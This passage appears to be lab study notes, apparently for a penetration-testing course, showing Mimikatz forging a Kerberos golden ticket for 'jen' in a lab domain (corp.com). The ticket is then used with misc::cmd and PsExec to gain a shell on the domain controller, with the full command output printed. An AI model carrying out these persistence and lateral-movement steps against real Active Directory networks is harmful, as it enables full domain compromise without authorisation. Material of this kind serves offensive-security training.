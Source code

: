 ```
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```

Mimikatz provides two sets of default values when using the golden ticket option: the user ID and the groups ID 
+ The user ID is set to 500 by default, which is the RID of the built-in administrator for the domain, while the values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group
+ With the golden ticket injected into memory, we've launched a new command prompt with **misc::cmd** from which we again attempt lateral movement with **PsExec**:
```
misc:cmd
```
+ Example:
```
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes    
=========================================== ================ ============================================ ===============================================================
```